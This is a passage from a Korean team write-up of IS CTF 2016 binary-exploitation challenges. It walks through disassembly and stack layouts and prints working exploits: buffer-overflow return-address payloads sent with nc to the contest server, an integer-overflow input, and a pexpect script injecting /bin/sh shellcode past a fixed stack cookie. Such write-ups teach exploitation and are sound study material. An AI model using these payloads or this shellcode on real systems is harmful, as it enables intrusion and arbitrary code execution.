




# IS CTF 2016 Write-up

team02 응 답없음

다음 문제들을 풀었으며 아래와 같은 순서로 재배치하였습니다.

* ePwn1000, ePwn1200, ePwn1500, ePwn1700, ePwn1800
* mPwn2000, mPwn2300
* Misc2000, Misc2300, Misc2400, Misc2500, Misc2600, Misc2700, Misc2800, Misc3000
* Web1000, Web2000
* Bon1500, Bon1700, Bon2000, Bon2300, Bon2700

## [ePwn1000] Easy Buffer-Overflow bug

### 요약

````
ied206@TS140  ~/ISCTF
$ wget http://45.63.124.167/files/epwn1000
ied206@TS140  ~/ISCTF
$ chmod +x epwn1000
ied206@TS140  ~/ISCTF
$ python -c 'print "A"*0x20 + "\x48\xd5\xff\xff" + "\x0E\x85\x04\x08"' > payload
ied206@TS140  ~/ISCTF
$ nc 45.32.46.195 10000 < payload
Input your name : Your name is : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAHֿÿ
ISCTF{Overfffffffflow!!}
````

### 풀이

분석을 위해 epwn1000 바이너리를 IDA로 열어보았다.
컴파일러 stub을 제외한 함수들은 main과 cat_flag 두 개가 존재한다.

main:


cat_flag:


cat_flag 함수가 호출되어야 flag를 볼 수 있으나, cat_flag은 main에서 호출되지 않는다.
하지만 이 바이너리는 stack canary 등이 적용되어 있지 않으므로, scanf를 사용해 BOF 공격을 할 수 있다.

````
(gdb) disas main
Dump of assembler code for function main:
   0x0804851e <+0>:	push   %ebp
   0x0804851f <+1>:	mov    %esp,%ebp
   0x08048521 <+3>:	sub    $0x20,%esp
   0x08048524 <+6>:	mov    0x804a040,%eax
   0x08048529 <+11>:	push   $0x0
   0x0804852b <+13>:	push   %eax
   0x0804852c <+14>:	call   0x80483b0 <setbuf@plt>
   0x08048531 <+19>:	add    $0x8,%esp
   0x08048534 <+22>:	mov    0x804a044,%eax
   0x08048539 <+27>:	push   $0x0
   0x0804853b <+29>:	push   %eax
   0x0804853c <+30>:	call   0x80483b0 <setbuf@plt>
   0x08048541 <+35>:	add    $0x8,%esp
   0x08048544 <+38>:	push   $0x804861d
   0x08048549 <+43>:	call   0x80483c0 <printf@plt>
   0x0804854e <+48>:	add    $0x4,%esp
   0x08048551 <+51>:	lea    -0x20(%ebp),%eax
   0x08048554 <+54>:	push   %eax
   0x08048555 <+55>:	push   $0x8048630
   0x0804855a <+60>:	call   0x80483f0 <__isoc99_scanf@plt>
   0x0804855f <+65>:	add    $0x8,%esp
   0x08048562 <+68>:	lea    -0x20(%ebp),%eax
   0x08048565 <+71>:	push   %eax
   0x08048566 <+72>:	push   $0x8048633
   0x0804856b <+77>:	call   0x80483c0 <printf@plt>
   0x08048570 <+82>:	add    $0x8,%esp
   0x08048573 <+85>:	mov    $0x0,%eax
   0x08048578 <+90>:	leave
   0x08048579 <+91>:	ret
End of assembler dump.
(gdb) disas cat_flag
Dump of assembler code for function cat_flag:
   0x0804850b <+0>:	push   %ebp
   0x0804850c <+1>:	mov    %esp,%ebp
   0x0804850e <+3>:	push   $0x8048600
   0x08048513 <+8>:	call   0x80483d0 <system@plt>
   0x08048518 <+13>:	add    $0x4,%esp
   0x0804851b <+16>:	nop
   0x0804851c <+17>:	leave
   0x0804851d <+18>:	ret
End of assembler dump.
````

이 코드에서 찾을 수 있는 지역변수는 [EBP-0x20] 하나이며, 이는 uint8_t buf[20]; 과 같은 형태를 가지고 있다. IA32의 스택 프레임에 따라, main의 return address는 buf (20B) + exEBP (4B) 다음에 존재한다. return address를 cat_flag 함수의 주소로 바꿔주면 이 함수가 실행되게 할 수 있다.

이론상으로, 다음과 같은 코드로 cat_flag를 실행할 수 있다.

````
$ python -c 'print "A"*0x24 + "\x0B\x85\x04\x08"' | ./epwn1000
````

그러나 이 경우, \x0B\x85\x04\x08 부분이 제대로 print되지 않고 있고, SegFault가 나서 실패한다.

````
Input your name : Your name is : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[1]    6625 done                python -c 'print "A"*0x24 + "\x0B\x85\x04\x08"' |
       6626 segmentation fault  ./epwn1000
````

문제를 해결하기 위해 gdb로 stack을 살펴본 결과, \x0B\x85\x04\x08가 \x00\x85\x04\x08으로 바뀌어 들어가 있었다.

````
gdb) x/32x $esp
0xffffd548:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd558:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd568:	0x41414141	0x00850408	0x00000001	0xffffd604
0xffffd578:	0xffffd60c	0x00000000	0x00000000	0x00000000
0xffffd588:	0xf7fc5000	0xf7ffdc04	0xf7ffd000	0x00000000
0xffffd598:	0xf7fc5000	0xf7fc5000	0x00000000	0x87a82a09
0xffffd5a8:	0xbda92419	0x00000000	0x00000000	0x00000000
0xffffd5b8:	0x00000001	0x08048410	0x00000000	0xf7fedee0
````

cat_flag 내의 call 명령어는 0x0804850E에서 호출된다. 현재 \x0B가 문제를 일으키고 있으므로, 이를 \x0E로 바꾼다.

````
$ python -c 'print "A"*0x24 + "\x0E\x85\x04\x08"' | nc 45.32.46.195 10000
Input your name : Your name is : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
ISCTF{Overfffffffflow!!}
````

### Answer flag

````
ISCTF{Overfffffffflow!!}
````

## [ePwn1200] Easy Integer-Overflow bug

### 요약

````
C:\Users\akwke\Desktop\netcat-1.11>nc.exe
Cmd line: 45.32.46.195 10001
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
buf : [aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
]
size : 63
Is this possible!? WOW!?
ISCTF{I know that 2147483648 is less than 0!}
````

### 풀이

ePwn1200의 주요 바이너리는 다음과 같다.

````
.text:0804854B buf             = dword ptr -109h
.text:0804854B var_9           = byte ptr –9
...
.text:080485B0                 call    _read
.text:080485B5                 add     esp, 0Ch
.text:080485B8                 lea     eax, [ebp+buf]
.text:080485BE                 push    eax
.text:080485BF                 push    offset format   ; "buf : [%s]\n"
.text:080485C4                 call    _printf
.text:080485C9                 add     esp, 8
.text:080485CC                 lea     eax, [ebp+buf]
.text:080485D2                 push    eax             ; s
.text:080485D3                 call    _strlen
.text:080485D8                 add     esp, 4
.text:080485DB                 push    eax
.text:080485DC                 push    offset aSizeD   ; "size : %d\n"
.text:080485E1                 call    _printf
.text:080485E6                 add     esp, 8
.text:080485E9                 lea     eax, [ebp+buf]
.text:080485EF                 push    eax             ; s
.text:080485F0                 call    _strlen
.text:080485F5                 add     esp, 4
.text:080485F8                 add     eax, 1
.text:080485FB                 shl     eax, 2
.text:080485FE                 mov     [ebp+var_9], al
.text:08048601                 cmp     [ebp+var_9], 0
.text:08048605                 jz      short loc_8048616
.text:08048607                 push    offset s        ; "I think there is no bug here..."
.text:0804860C                 call    _puts
.text:08048611                 add     esp, 4
.text:08048614                 jmp     short loc_8048630
.text:08048616 ; ---------------------------------------------------------------------------
.text:08048616
.text:08048616 loc_8048616:                            ; CODE XREF: main+BAj
.text:08048616                 push    offset aIsThisPossible ; "Is this possible!? WOW!?"
.text:0804861B                 call    _puts
.text:08048620                 add     esp, 4
.text:08048623                 push    offset command  ; "/bin/cat /home/epwn1200/flag"
.text:08048628                 call    _system
.text:0804862D                 add     esp, 4
````

주목해야하는 점은, AL이 0만 되면, Flag가 출력된다는 것이다.

1. EAX에 입력 문자열의 길이 + 1 ( Enter ) 이 저장된다. 그리고 size : %d의 인자는 eax이므로 eax의 값이 출력된다.
2. AL = Low 8bit이므로 이를 0으로 만들기 위해선 ( 입력 문자열 길이 + Enter + 1 ) * 4가 256의 배수면 된다.
3. Buf의 크기는 100h ( 256 )이므로 62, 126, 254개의 문자로 이루어진 문자열이 저장가능하다.

그래서 다음과 같이 a를 62개, 126개, 254개 집어 넣으면 Flag값이 출력된다.

````
C:\Users\akwke\Desktop\netcat-1.11>nc.exe
Cmd line: 45.32.46.195 10001
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
buf : [aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
]
size : 63
Is this possible!? WOW!?
ISCTF{I know that 2147483648 is less than 0!}
````

````
C:\Users\akwke\Desktop\netcat-1.11>nc.exe
Cmd line: 45.32.46.195 10001
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
buf : [aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
]
size : 127
Is this possible!? WOW!?
ISCTF{I know that 2147483648 is less than 0!}
````

````
C:\Users\akwke\Desktop\netcat-1.11>nc.exe
Cmd line: 45.32.46.195 10001
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
buf : [aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
]
size : 255
Is this possible!? WOW!?
ISCTF{I know that 2147483648 is less than 0!}
````

### Answer flag

````
ISCTF{I know that 2147483648 is less than 0!}
````

## [ePwn1500] Easy Format-String bug

### 요약

````
ied206@TS140  ~/ISCTF/epwn1500
$ wget http://45.63.124.167/files/epwn1500
ied206@TS140  ~/ISCTF/epwn1500
$ chmod +x epwn1500
ied206@TS140  ~/ISCTF/epwn1500
$ python -c 'print "A"*264 + "\x49\x86\x04\x08"' | nc 45.32.46.195 10002
Input the admin password : Your input is : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAI
You are not admin... :P
ISCTF{I like f0rmat-str1ng bug. :P}
````

### 풀이

epwn1500 바이너리 내에서 컴파일러 stub을 제외하면, main 함수만이 존재한다.

Main 내의 코드는 다음과 같다.

````
(gdb) disas main
Dump of assembler code for function main:
   0x080485ab <+0>:	push   %ebp
   0x080485ac <+1>:	mov    %esp,%ebp
   0x080485ae <+3>:	push   %edi
   0x080485af <+4>:	sub    $0x100,%esp
   0x080485b5 <+10>:	mov    0x804a040,%eax
   0x080485ba <+15>:	push   $0x0
   0x080485bc <+17>:	push   %eax
   0x080485bd <+18>:	call   0x8048420 <setbuf@plt>
   0x080485c2 <+23>:	add    $0x8,%esp
   0x080485c5 <+26>:	mov    0x804a044,%eax
   0x080485ca <+31>:	push   $0x0
   0x080485cc <+33>:	push   %eax
   0x080485cd <+34>:	call   0x8048420 <setbuf@plt>
   0x080485d2 <+39>:	add    $0x8,%esp
   0x080485d5 <+42>:	lea    -0x104(%ebp),%edx
   0x080485db <+48>:	mov    $0x0,%eax
   0x080485e0 <+53>:	mov    $0x40,%ecx
   0x080485e5 <+58>:	mov    %edx,%edi
   0x080485e7 <+60>:	rep stos %eax,%es:(%edi)
   0x080485e9 <+62>:	push   $0x8048739
   0x080485ee <+67>:	call   0x8048440 <printf@plt>
   0x080485f3 <+72>:	add    $0x4,%esp
   0x080485f6 <+75>:	lea    -0x104(%ebp),%eax
   0x080485fc <+81>:	push   %eax
   0x080485fd <+82>:	push   $0x8048755
   0x08048602 <+87>:	call   0x8048490 <__isoc99_scanf@plt>
   0x08048607 <+92>:	add    $0x8,%esp
   0x0804860a <+95>:	push   $0x8048758
   0x0804860f <+100>:	call   0x8048440 <printf@plt>
   0x08048614 <+105>:	add    $0x4,%esp
   0x08048617 <+108>:	lea    -0x104(%ebp),%eax
   0x0804861d <+114>:	push   %eax
   0x0804861e <+115>:	call   0x8048440 <printf@plt>
   0x08048623 <+120>:	add    $0x4,%esp
   0x08048626 <+123>:	push   $0xa
   0x08048628 <+125>:	call   0x8048480 <putchar@plt>
   0x0804862d <+130>:	add    $0x4,%esp
   0x08048630 <+133>:	mov    0x804a034,%eax
   0x08048635 <+138>:	lea    -0x104(%ebp),%edx
   0x0804863b <+144>:	push   %edx
   0x0804863c <+145>:	push   %eax
   0x0804863d <+146>:	call   0x8048430 <strcmp@plt>
   0x08048642 <+151>:	add    $0x8,%esp
   0x08048645 <+154>:	test   %eax,%eax
   0x08048647 <+156>:	jne    0x8048658 <main+173>
   0x08048649 <+158>:	push   $0x8048769
   0x0804864e <+163>:	call   0x8048460 <system@plt>
   0x08048653 <+168>:	add    $0x4,%esp
   0x08048656 <+171>:	jmp    0x8048665 <main+186>
   0x08048658 <+173>:	push   $0x8048786
   0x0804865d <+178>:	call   0x8048450 <puts@plt>
   0x08048662 <+183>:	add    $0x4,%esp
   0x08048665 <+186>:	mov    $0x0,%eax
   0x0804866a <+191>:	mov    -0x4(%ebp),%edi
   0x0804866d <+194>:	leave
   0x0804866e <+195>:	ret
End of assembler dump.
````

main의 stack frame은 다음과 같다.

````
uint8_t buf[0x100];
int32_t var;
before-main EBP
return address
````

이 문제를 풀기 위해선 flag가 존재하는 0x0804a034의 값을 읽거나, `system("/bin/cat /home/epwn1500/flag");`가 존재하는 0x08048649로 EIP를 이동시켜야 한다. 본 풀이에서는 후자의 방법을 택하였다.

main 내에 별도의 stack canary가 존재하지 않기 때문에 scanf를 사용한 BOF가 가능하다.
payload는 256 + 4 + 4바이트의 더미 데이터 + Return Address로 구성하면 된다.

````
ied206@TS140  ~/ISCTF/epwn1500
$ python -c 'print "A"*264 + "\x49\x86\x04\x08"' | nc 45.32.46.195 10002
Input the admin password : Your input is : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAI
You are not admin... :P
ISCTF{I like f0rmat-str1ng bug. :P}
````

### Answer flag

````
ISCTF{I like f0rmat-str1ng bug. :P}
````

## [ePwn1700] Custom BoF Detector

### 요약

````
ied206@TS140  ~/ISCTF/epwn1700
$ wget http://45.63.124.167/files/epwn1700
ied206@TS140  ~/ISCTF/epwn1700
$ chmod +x epwn1700
ied206@TS140  ~/ISCTF/epwn1700
$ vim expect.py
ied206@TS140  ~/ISCTF/epwn1700
$ cat expect.py
#!/usr/bin/env python3
import pexpect
import sys
p = pexpect.spawn(sys.argv[1])
opts = [ "Buffer overflow detector v0.1 !!! \r\nBuffer address at : 0x([a-fA-F0-9]+)\r\n",
          pexpect.EOF ]
while True:
    index = p.expect(opts, timeout=3)
    if index == 0:
        address = int(p.match.group(1), 16).to_bytes(4, byteorder='little')
        shellcode = b'\x90'*36 +  b'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + b'\xDE\xAD\xBE\xEF'*2 + b'\x00\xe1\xd7\xFF'
        shellcode = shellcode + address
        print(shellcode)
        p.send(shellcode)
        p.interact()

ied206@TS140  ~/ISCTF/epwn1700
$ ./expect.py 'nc 45.32.46.195 10003'
b'\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x9090\x90\x90\x901\xc0Ph//shh/bin\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x801\xc0@\xcd\x80\xde\xad\xbe\xef\xde\x\xa0%\xbf\xff'
1󿿐h//shh/bin㊁°^K̀1󿿀̀ޭ¾𐞭¾☿ %¿ÿ
1󿿐h//shh/bin㊁°
               ̀1󿿀̀ޭ¾𐞭¾
cat /home/epwn1700/flag
ISCTF{0xdaedbeefdaedbeef!!}
````

epwn1700 바이너리 내에서 컴파일러 stub을 제외하면, main 함수만이 존재한다.

Main 내의 코드는 다음과 같다.

````
(gdb) disas main
Dump of assembler code for function main:
   0x0804854b <+0>:	push   %ebp
   0x0804854c <+1>:	mov    %esp,%ebp
   0x0804854e <+3>:	sub    $0x48,%esp
   0x08048551 <+6>:	mov    0x804a040,%eax
   0x08048556 <+11>:	push   $0x0
   0x08048558 <+13>:	push   %eax
   0x08048559 <+14>:	call   0x80483d0 <setbuf@plt>
   0x0804855e <+19>:	add    $0x8,%esp
   0x08048561 <+22>:	mov    0x804a044,%eax
   0x08048566 <+27>:	push   $0x0
   0x08048568 <+29>:	push   %eax
   0x08048569 <+30>:	call   0x80483d0 <setbuf@plt>
   0x0804856e <+35>:	add    $0x8,%esp
   0x08048571 <+38>:	push   $0x804869c
   0x08048576 <+43>:	call   0x8048410 <puts@plt>
   0x0804857b <+48>:	add    $0x4,%esp
   0x0804857e <+51>:	movl   $0x0,-0x8(%ebp)
   0x08048585 <+58>:	movl   $0x0,-0x4(%ebp)
   0x0804858c <+65>:	mov    0x8048690,%eax
   0x08048591 <+70>:	mov    0x8048694,%edx
   0x08048597 <+76>:	mov    %eax,-0x8(%ebp)
   0x0804859a <+79>:	mov    %edx,-0x4(%ebp)
   0x0804859d <+82>:	push   $0x40
   0x0804859f <+84>:	push   $0x0
   0x080485a1 <+86>:	lea    -0x48(%ebp),%eax
   0x080485a4 <+89>:	push   %eax
   0x080485a5 <+90>:	call   0x8048430 <memset@plt>
   0x080485aa <+95>:	add    $0xc,%esp
   0x080485ad <+98>:	lea    -0x48(%ebp),%eax
   0x080485b0 <+101>:	push   %eax
   0x080485b1 <+102>:	push   $0x80486bf
   0x080485b6 <+107>:	call   0x8048400 <printf@plt>
   0x080485bb <+112>:	add    $0x8,%esp
   0x080485be <+115>:	push   $0x100
   0x080485c3 <+120>:	lea    -0x48(%ebp),%eax
   0x080485c6 <+123>:	push   %eax
   0x080485c7 <+124>:	push   $0x0
   0x080485c9 <+126>:	call   0x80483f0 <read@plt>
   0x080485ce <+131>:	add    $0xc,%esp
   0x080485d1 <+134>:	lea    -0x8(%ebp),%eax
   0x080485d4 <+137>:	push   %eax
   0x080485d5 <+138>:	push   $0x8048690
   0x080485da <+143>:	call   0x80483e0 <strcmp@plt>
   0x080485df <+148>:	add    $0x8,%esp
   0x080485e2 <+151>:	test   %eax,%eax
   0x080485e4 <+153>:	je     0x80485fa <main+175>
   0x080485e6 <+155>:	push   $0x80486d8
   0x080485eb <+160>:	call   0x8048410 <puts@plt>
   0x080485f0 <+165>:	add    $0x4,%esp
   0x080485f3 <+168>:	mov    $0xffffffff,%eax
   0x080485f8 <+173>:	jmp    0x804860b <main+192>
   0x080485fa <+175>:	lea    -0x48(%ebp),%eax
   0x080485fd <+178>:	push   %eax
   0x080485fe <+179>:	call   0x8048410 <puts@plt>
   0x08048603 <+184>:	add    $0x4,%esp
   0x08048606 <+187>:	mov    $0x0,%eax
   0x0804860b <+192>:	leave
   0x0804860c <+193>:	ret
End of assembler dump.
````

main 내에는 총 2개의 배열이 존재한다.
````
uint8_t buf[0x40];
uint8_t cookie_cmp[0x08];
````

buf에 넣을 값을 읽을 때, read는 셋째 인자로 0x100을 받고 있으므로 BOF가 가능하다.
cookie_cmp 값은 main이 끝나기 전에 strcmp로 검사를 받는, 일종의 스택 카나리 역할을 한다. 다만 epwn1700은 stack canary의 값이 0xDEADBEEFDEADBEEF로 동일하기에 이를 우회할 수 있다.

buf + cookie_cmp + exEBP + return address 순으로 main의 스택 프레임이 구성되어 있으므로, buf의 64B 내에 쉘코드를 넣고, cookie_cmp는 stack canary 검사를 우회하기 위해 0xDEADBEEFDEADBEEF로 넣는다. 이 때 stack canary 검사가 memcmp가 아닌 strcmp로 이루어지기에, exEBP 자리에 들어갈 4B 주소는 하위 8비트가 0으로 설정되어 있어야 한다 (즉 NULL로 읽혀져야 한다). 이후,  return address는 buf의 시작 주소를 주면 된다.

이 때 buf의 시작 주소는 매번 변하는 문제가 있으나, epwn1700은 buf의 주소를 stdout에 출력해준다. 따라서 이 문제를 풀기 위해선 이 값을 읽은 뒤 동적으로 쉘코드에 주소를 삽입하여 stdin에 넣어줘야 한다. 이를 위해 python의 pexpect 모듈을 사용한다.

먼저, /bin/sh을 호출하는 28B 쉘코드를 준비한다.

````
'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'
````

NOP Sled의 효과를 내고, 64B에 맞춰 패딩을 하기 위해 앞에 36B의 NOP을 붙인다. cookie_cmp 검사를 대비해 뒤에 0xDEADBEEFDEADBEEF를 추가한 후, exEBP 자리에 들어갈 하위 1B가 0인 더미주소 4바이트도 붙인다.

````
#!/usr/bin/env python3
shellcode = b'\x90'*36 +  b'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + b'\xDE\xAD\xBE\xEF'*2 + b'\x00\xe1\xd7\xFF'
````

stdout에서 출력해주는 buf의 주소를 읽은 뒤, 이를 쉘코드 맨 뒤에 붙인다.

````
#!/usr/bin/env python3
# buf’s address captured in p.match.group(1)
address = int(p.match.group(1), 16).to_bytes(4, byteorder='little')
shellcode = shellcode + address
````

epwn1700의 stdin과 stdout을 통제하기 위해 python의 pexpect 모듈을 사용한다.
출력된 buf의 주소를 찾은 뒤 쉘코드를 생성하고, 이후부터는 stdin과 stdout을 정상적인 상태처럼 쉘로 보내 /bin/sh을 내가 조작할 수 있도록 한다.
문제풀이에 사용한 코드는 다음과 같다.

````
ied206@TS140  ~/ISCTF/mpwn2000
$ cat expect.py
#!/usr/bin/env python3

import pexpect
import sys

p = pexpect.spawn(sys.argv[1])

opts = [ "Buffer overflow detector v0.1 !!! \r\nBuffer address at : 0x([a-fA-F0-9]+)\r\n",
          pexpect.EOF ]

while True:
    index = p.expect(opts, timeout=3)
    if index == 0:
        address = int(p.match.group(1), 16).to_bytes(4, byteorder='little')
        shellcode = b'\x90'*36 +

b'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + b'\xDE\xAD\xBE\xEF'*2 + b'\x00\xe1\xd7\xFF'
        shellcode = shellcode + address
        print(shellcode)
        p.send(shellcode)
        p.interact()
````

이를 실행하면 다음 결과를 얻을 수 있다.

````
ied206@TS140  ~/ISCTF/epwn1700
$ ./expect.py 'nc 45.32.46.195 10003'
b'\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x9090\x90\x90\x901\xc0Ph//shh/bin\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x801\xc0@\xcd\x80\xde\xad\xbe\xef\xde\x\xa0%\xbf\xff'
1󿿐h//shh/bin㊁°^K̀1󿿀̀ޭ¾𐞭¾☿ %¿ÿ
1󿿐h//shh/bin㊁°
               ̀1󿿀̀ޭ¾𐞭¾
cat /home/epwn1700/flag
ISCTF{0xdaedbeefdaedbeef!!}
````

### Answer flag

````
ISCTF{0xdaedbeefdaedbeef!!}
````

## [ePwn1800] String Comparer

### 요약

````
ied206@TS140  ~/ISCTF/epwn1800
$ wget http://45.63.124.167/files/epwn1800
ied206@TS140  ~/ISCTF/epwn1800
$ chmod +x epwn1800
ied206@TS140  ~/ISCTF/epwn1800
$ python -c "print '-1 ' + 'A'*253" | nc 45.32.46.195 10004
Input the password length : Input the password (length : 255
Congratz !
The flag is ISCTF{I don't need to match them :)}
````

### 풀이

epwn1800 바이너리 내에서 컴파일러 stub을 제외하면, main 함수만이 존재한다.

Main 내의 코드는 다음과 같다.

````
(gdb) disas main
Dump of assembler code for function main:
   0x080486db <+0>:	lea    0x4(%esp),%ecx
   0x080486df <+4>:	and    $0xfffffff0,%esp
   0x080486e2 <+7>:	pushl  -0x4(%ecx)
   0x080486e5 <+10>:	push   %ebp
   0x080486e6 <+11>:	mov    %esp,%ebp
   0x080486e8 <+13>:	push   %edi
   0x080486e9 <+14>:	push   %ebx
   0x080486ea <+15>:	push   %ecx
   0x080486eb <+16>:	sub    $0x12c,%esp
